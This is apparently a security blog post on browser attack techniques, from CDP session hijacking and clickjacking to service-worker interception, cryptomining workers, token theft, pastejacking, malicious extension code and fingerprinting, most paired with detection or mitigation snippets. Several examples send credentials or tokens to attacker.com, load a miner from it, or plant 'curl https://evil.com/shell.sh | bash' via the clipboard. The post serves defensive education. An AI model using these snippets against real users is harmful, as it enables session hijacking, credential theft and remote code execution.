








# The Hostile DOM: Why Your Browser is the New Battlefield

::: danger Executive Summary
The modern web browser is no longer a simple document viewer—it is a **fully-featured operating system** with access to your camera, microphone, file system, USB ports, and Bluetooth sensors. This post dissects the offensive landscape of browser-based attacks, moving beyond phishing to explore technical mechanisms of DOM manipulation, token extraction, and persistence.
:::

## The Browser as an Operating System

We face a fundamental **Trust Paradox**: browser vendors invest millions in sandboxing hostile code, yet the modern web *requires* us to execute arbitrary JavaScript from strangers on every page load. Analytics engines, ad networks, CDNs—each visit to a popular website loads code from dozens of third-party domains.

According to recent research, the average website loads **48 third-party domains** with full JavaScript execution privileges. Each represents a potential compromise vector—any single malicious script gains complete access to your session, regardless of its origin.



### The Complexity Stack

The browser attack surface encompasses three critical layers, each contributing to an unprecedented attack landscape:

1. **Rendering Engine** (Blink/Gecko) - ~30 million lines of code, more complex than the Linux kernel (~28 million LOC)
2. **JavaScript Engine** (V8/SpiderMonkey) - A JIT compiler with speculative execution, running untrusted code at near-native speed
3. **Web API Layer** - Over 350+ APIs providing direct hardware access (Sensors, Storage, Bluetooth, USB, WebRTC, WebGL)

**2024 Vulnerability Statistics:**
- **Chromium CVEs**: 157 vulnerabilities (23 critical)
- **V8 Engine CVEs**: 37 vulnerabilities (12 critical)  
- **WebKit CVEs**: 89 vulnerabilities (15 critical)
- **Firefox CVEs**: 124 vulnerabilities (18 critical)

::: warning Privilege Escalation Vector
A simple Cross-Site Scripting (XSS) vulnerability—once just a popup alert—is now a **gateway to full system compromise** due to Web APIs bridging the browser to OS-level resources.
:::

## Browser Instrumentation: The Hidden Backdoors

Browsers ship with forensic-grade debugging capabilities intended for developers. In offensive contexts, these become "God Mode" privileges.

### Command-Line Flags: Disabling Security

```bash
# The "Jailbreak" Launch - Disables OS-level isolation
chrome.exe --remote-debugging-port=9222 \
           --no-sandbox \
           --disable-setuid-sandbox \
           --disable-web-security \
           --user-data-dir="C:\Victim\Profile"

# Firefox equivalent
firefox.exe --remote-debugging-port=9222 \
            --no-sandbox \
            --profile "C:\Victim\Profile"
```

::: danger Critical Flags Explained
- `--no-sandbox`: **Complete removal** of OS security isolation. Grants browser process file system access, can spawn child processes, access network sockets
- `--remote-debugging-port=9222`: Opens Chrome DevTools Protocol (CDP) websocket server on port 9222 **with zero authentication**
- `--headless`: Invisible execution mode for automated attacks - no UI window, no taskbar icon
- `--disable-web-security`: Disables Same-Origin Policy (SOP), allowing cross-origin requests without CORS
- `--user-data-dir`: Specify custom profile directory to preserve victim's cookies and session state
:::

**Real-World Attack Scenario:**
1. Malware launches hidden Chrome instance with these flags
2. CDP websocket opens on localhost:9222 (no firewall trigger - local connection)
3. Malware connects to CDP, assumes complete browser control
4. All existing sessions (Gmail, banking, corporate tools) are now compromised
5. No password cracking needed - just riding authenticated sessions

### Chrome DevTools Protocol (CDP): Remote Browser Control

Once a browser launches with `--remote-debugging-port`, any process can connect and assume **complete control**:

::: code-group
```javascript [Attacker Script (Puppeteer)]
const puppeteer = require('puppeteer');

// Connect to victim's running browser (no auth required)
const browser = await puppeteer.connect({
  browserURL: 'http://localhost:9222'
});

// We now control the victim's authenticated session
const page = await browser.newPage();
await page.goto('https://bank.com/transfer');

// Bypass MFA entirely - we're riding their cookies
await page.type('#amount', '10000');
await page.click('#confirm-transfer');
```

```javascript [Legitimate Debugging Use]
// Developer workflow: automated testing
const browser = await puppeteer.launch({
  headless: false,
  devtools: true
});
```
:::



```mermaid
sequenceDiagram
    participant Victim as Victim Browser
    participant CDP as CDP Port :9222
    participant Attacker as Attacker Script
    
    Victim->>CDP: Launch with --remote-debugging-port
    Note over CDP: WebSocket listens on<br/>localhost:9222<br/>(no authentication)
    
    Attacker->>CDP: WebSocket connect to port 9222
    CDP-->>Attacker: Full browser control granted
    Note over Attacker: Complete access to:<br/>• All tabs<br/>• All cookies<br/>• Session storage<br/>• Network requests
    
    Attacker->>Victim: page.goto('bank.com')
    Note over Victim: Uses existing cookies<br/>MFA already bypassed
    
    Attacker->>Victim: Execute arbitrary JavaScript
    Victim-->>Attacker: Return session tokens,<br/>DOM content, credentials
    
    Attacker->>Victim: page.screenshot()
    Victim-->>Attacker: Full page screenshot<br/>(including sensitive data)
```

::: tip Attack Vector
Malware can launch a hidden Chrome instance with these flags, or scan for developers' existing debug sessions. No password cracking required—just automation riding on authenticated sessions.
:::

## Visual Deception: UI Redressing Attacks

### The Rendering Engine Lies

**Core Principle:** The eyes can be trusted, but the rendering engine cannot.

### Clickjacking: The Invisible Overlay

Clickjacking uses CSS to stack an invisible malicious element directly over a legitimate UI control, weaponizing the user's own input.

::: code-group
```html [Attack Technique]
<!-- Invisible trap -->
<iframe src="https://victim-bank.com/transfer"
        style="opacity: 0;
               z-index: 999;
               position: absolute;
               top: 50px; 
               left: 50px;">
</iframe>

<!-- Visible decoy -->
<button style="position: absolute; 
               top: 50px; 
               left: 50px;">
    🎁 CLICK TO WIN FREE GIFT!
</button>
```

```css [Mitigation (Server-Side Header)]
/* Prevent framing attacks */
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none'
```
:::



**3D Visualization of Click Penetration:**

```
        ┌─────────────────────┐
Z=999   │ Confirm Transfer    │ ← Click actually hits HERE
        │ (opacity: 0)        │
        └─────────────────────┘
                 ↓ Click drills through Z-axis
        ┌─────────────────────┐
Z=1     │ 🎁 Win Prize!       │ ← User SEES this
        └─────────────────────┘
```

### Homograph Attacks: IDN Spoofing

Attackers register domains using Cyrillic/Greek characters that render identically to Latin characters. This is a **visual encoding attack** that exploits how browsers display Internationalized Domain Names (IDN).

**Attack Mechanics:**

```
Legitimate domain:  apple.com
Malicious domain:   xn--pple-43d.com  

Visual rendering in browser bar:  аpple.com
(First 'a' is Cyrillic U+0430, not Latin U+0061)
```

::: danger SSL Certificate Bypass
The attacker obtains a **valid SSL certificate** for `xn--pple-43d.com` from any Certificate Authority (Let's Encrypt, etc.). The browser:

1. Validates the SSL certificate for the Punycode domain ✓
2. Displays the Unicode rendering in the address bar
3. Shows the padlock icon (connection is secure) ✓
4. User sees what appears to be `apple.com` with valid HTTPS

**Result**: Perfect visual spoofing with valid cryptographic authentication.
:::

**Additional Attack Vectors:**
- Mixing scripts: `pаypal.com` (Cyrillic + Latin mix)
- Zero-width characters: `google.com` + U+200B (invisible character)
- Combining marks: `microsoft.com` + diacriticals
- Right-to-left override: Using U+202E to reverse text direction

## The "Ghost" Network: Service Worker Persistence

Service Workers are the most **underestimated persistence mechanism** in modern browsers. They act as client-side proxies that survive tab closures and browser restarts.

### The Attack Lifecycle



### The Interceptor Code

::: code-group
```javascript [service-worker.js - Attack]
// Registers on first visit, persists forever
self.addEventListener('fetch', event => {
  const url = event.request.url;
  
  // Intercept ALL requests
  if (url.includes('/login')) {
    // Serve fake login page from cache
    // The browser NEVER contacts the real server
    event.respondWith(
      caches.match('/phishing-clone.html')
    );
  }
  
  // Exfiltrate credentials on POST
  if (event.request.method === 'POST') {
    event.request.clone().text().then(body => {
      fetch('https://attacker.com/log', {
        method: 'POST',
        body: body
      });
    });
  }
});
```

```javascript [Detection Script]
// Check for registered service workers
navigator.serviceWorker.getRegistrations()
  .then(registrations => {
    registrations.forEach(reg => {
      console.log('SW Scope:', reg.scope);
      reg.unregister(); // Manual cleanup
    });
  });
```
:::

::: danger Three Critical Properties
1. **Total Interception:** Visibility into every HTTP request
2. **Offline Execution:** Works without internet connectivity
3. **Extreme Persistence:** Survives browser restarts, difficult to detect
:::

## Script Injection: From XSS to Crypto Mining

### Dangerous Sinks

Classic injection points remain the primary entry vector:

```javascript
// DANGEROUS: Direct HTML injection
element.innerHTML = userInput; // 

// DANGEROUS: String to code conversion
eval(userInput);
Function(userInput)();
```

### Stealth Loading: Web Workers

Web Workers run on background threads, keeping the UI responsive while executing malicious payloads invisibly.

::: code-group
```javascript [Main Page - Attack Launcher]
// User sees: "Loading chat..."
// Reality: Launching cryptominer in background thread

const evilWorker = new Worker(
  URL.createObjectURL(
    new Blob([`
      importScripts('https://attacker.com/miner.js');
      while(true) { mineCrypto(); }
    `])
  )
);

// UI stays smooth - user suspects nothing
```

```javascript [Detection]
// Monitor worker creation
const OriginalWorker = Worker;
window.Worker = function(...args) {
  console.warn('Worker Created:', args);
  return new OriginalWorker(...args);
};
```
:::



::: warning The Iceberg Effect
The user sees a loading spinner. Beneath the surface, the DOM is executing a full-scale cryptomining operation or port scanning your internal network.
:::

## Token Theft: Weaponizing Storage APIs

### The localStorage Vulnerability

Modern Single-Page Applications (SPAs) frequently store JWT tokens in `localStorage`, which has **no HttpOnly protection**:

```javascript
// Common (vulnerable) pattern
localStorage.setItem('authToken', 'eyJhbGciOiJIUzI1...');

// Any XSS can now exfiltrate
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: localStorage.getItem('authToken')
});
```

::: danger Critical Difference
| Storage Type | JavaScript Access | CSRF Protection | Recommended Use |
|-------------|------------------|-----------------|-----------------|
| `localStorage` | ✅ Full Access | ❌ None | Never for auth tokens |
| `HttpOnly Cookie` | ❌ Blocked | ✅ Protected | Authentication |
:::

### Pastejacking: The Clipboard Trap

Attackers can intercept copy operations and replace clipboard content with malicious payloads:

::: code-group
```javascript [Attack Code]
document.addEventListener('copy', function(e) {
  // User highlights: "git clone https://github.com/safe-repo"
  const selectedText = window.getSelection().toString();
  
  // Replace with payload
  const payload = 'curl https://evil.com/shell.sh | bash\n';
  
  e.clipboardData.setData('text/plain', payload);
  e.preventDefault(); // Block the real copy
});
```

```bash [What User Sees vs. Gets]
# User copies this from website:
git clone https://github.com/safe-repo

# User pastes into terminal and gets:
curl https://evil.com/shell.sh | bash
```
:::



::: danger Scope Escalation
This weaponizes the **system clipboard**, escalating from browser-level to **full machine compromise** via the terminal.
:::

## Permission Fatigue: The Extension Threat

Browser extensions operate with **god-like privileges**, outside the page's security model.

### Manifest Permissions Analysis

::: code-group
```json [Malicious Extension Manifest]
{
  "name": "Helpful PDF Converter",
  "version": "2.1.0",
  "permissions": [
    "tabs",              // Monitor all browsing
    "activeTab",         // Read current page content
    "storage",           // Access localStorage/cookies
    "webRequest",        // Intercept network traffic
    "webRequestBlocking", // Modify requests/responses
    "<all_urls>",        // Execute on EVERY website
    "clipboardRead",     // Steal copied passwords
    "clipboardWrite"     // Implement pastejacking
  ],
  "background": {
    "scripts": ["background.js"],
    "persistent": true   // Always running
  }
}
```

```javascript [background.js - MITM Attack]
// Intercept ALL network requests
chrome.webRequest.onBeforeRequest.addListener(
  function(details) {
    // Log credentials from POST requests
    if (details.method === 'POST') {
      console.log('Captured:', details.requestBody);
      
      // Exfiltrate to attacker server
      fetch('https://attacker.com/log', {
        method: 'POST',
        body: JSON.stringify(details)
      });
    }
  },
  { urls: ["<all_urls>"] },
  ["requestBody", "blocking"]
);
```
:::

::: danger Attack Vector: Malicious Updates
A previously safe extension can push a malicious update after gaining user trust. The extension marketplace typically has minimal re-review for updates.
:::

### Critical Permissions Breakdown



## Browser Fingerprinting: The Hardware Identity

**Core Principle:** You can delete cookies, but you cannot delete your hardware.

### Canvas Fingerprinting

Browsers render graphics slightly differently based on GPU, drivers, and anti-aliasing settings. This creates a unique "pixel hash."

```javascript
// Generate unique hardware fingerprint
const canvas = document.createElement('canvas');
const ctx = canvas.getContext('2d');

// Draw text with various fonts
ctx.font = '18px Arial';
ctx.fillText('Browser Fingerprint Test', 2, 15);

// GPU renders this SLIGHTLY differently on every machine
const canvasData = canvas.toDataURL();
const fingerprint = hashFunction(canvasData); // Unique to this GPU

// Send to tracking server
fetch('https://tracker.com/id', {
  method: 'POST',
  body: JSON.stringify({ 
    id: fingerprint,
    persistent: true // Survives cookie deletion
  })
});
```

### WebRTC IP Leakage

WebRTC can bypass VPNs entirely to reveal the user's real local and public IP addresses:

::: code-group
```javascript [IP Leak Exploit]
// Create fake peer connection
const pc = new RTCPeerConnection({
  iceServers: [{urls: "stun:stun.l.google.com:19302"}]
});

// Listen for ICE candidates (contains IP addresses)
pc.onicecandidate = (event) => {
  if (event.candidate) {
    // Extract real IP from candidate string
    const ipRegex = /([0-9]{1,3}\.){3}[0-9]{1,3}/;
    const leakedIP = event.candidate.candidate.match(ipRegex);
    
    console.log('VPN Bypassed. Real IP:', leakedIP[0]);
    
    // Exfiltrate
    fetch('https://tracker.com/realip', {
      method: 'POST',
      body: leakedIP[0]
    });
  }
};

// Trigger ICE gathering
pc.createDataChannel("");
pc.createOffer().then(o => pc.setLocalDescription(o));
```

```javascript [Mitigation]
// Disable WebRTC in browser settings or via extension
// Firefox: media.peerconnection.enabled = false
// Chrome: Use extension to block WebRTC
```
:::



### The Digital Fingerprint

Combined hardware characteristics create a persistent biometric ID:

```javascript
const fingerprint = {
  canvasHash: '0x9F4A...B2',      // GPU signature
  audioHash: '0x7C3D...A1',       // Audio hardware signature
  webrtcIPs: ['192.168.1.100'],   // Real IP (VPN bypassed)
  fonts: ['Arial', 'Times', ...], // 147 installed fonts
  plugins: ['PDF', 'Flash'],      
  screenResolution: '1920x1080',
  timezone: 'America/New_York',
  language: 'en-US',
  platform: 'Linux x86_64',
  
  // Unique ID generated from above
  uniqueID: hash(all_above) // Persistent across cookie deletion
};
```

::: danger Persistence Mechanism
This ID **cannot be cleared** by normal privacy measures. Changing it requires replacing hardware or using VM fingerprint randomization tools.
:::

## Conclusion: The Paradigm Shift

### The Perimeter is Gone

Traditional network security (firewalls, IDS/IPS) **cannot see inside encrypted browser traffic**. The execution environment—the DOM—is where modern attacks live.

### The Visibility Gap



::: tip Defensive Imperatives
1. **Content Security Policy (CSP):** Eliminate `unsafe-inline` and `unsafe-eval`
2. **Subresource Integrity (SRI):** Verify CDN script hashes
3. **Remote Browser Isolation (RBI):** Execute untrusted code in cloud containers, not local machines
4. **Extension Auditing:** Regularly review installed extensions and their permissions
:::

### The New Security Model

Stop securing the **network packet**. Start securing the **execution environment**.

::: danger Final Warning
The browser is the most sophisticated, hostile operating system you use every day. Treat it as such.
:::


<!-- 
**Next in this series:**
- [Hostile DOM: Master Index](/projects/security_blog/dom_exploits/01-hostile-dom-index) - Complete attack vector catalog with topic coverage map
- [Part 1: Browser Architecture & Instrumentation](/projects/security_blog/dom_exploits/deep_dive/02-hostile-dom-architecture) - CDP exploitation, automation framework weaponization
- [Part 2: Visual & UI Deception Attacks](/projects/security_blog/dom_exploits/deep_dive/03-hostile-dom-visual-attacks) - Clickjacking, homograph attacks, cursor manipulation
- [Part 3: Persistence & Background Execution](/projects/security_blog/dom_exploits/deep_dive/04-hostile-dom-persistence) - Service Workers, Web Workers, malvertising
- [Part 4: Code Injection & Execution](/projects/security_blog/dom_exploits/deep_dive/05-hostile-dom-injection) - XSS, polyglots, CSP bypasses
- [Part 5: Credential & Session Theft](/projects/security_blog/dom_exploits/deep_dive/06-hostile-dom-theft) - localStorage attacks, pastejacking, CSRF, OAuth theft
- [Part 6: Permission & Extension Exploitation](/projects/security_blog/dom_exploits/deep_dive/07-hostile-dom-extensions) - Extension permissions, WebRTC exploitation
- [Part 7: Fingerprinting & Tracking](/projects/security_blog/dom_exploits/deep_dive/08-hostile-dom-fingerprinting) - Canvas, AudioContext, hardware, behavioral analysis
- [Part 8: Advanced Attack Vectors](/projects/security_blog/dom_exploits/deep_dive/09-hostile-dom-advanced) - XS-Leaks, prototype pollution, WebAssembly, Spectre variants -->
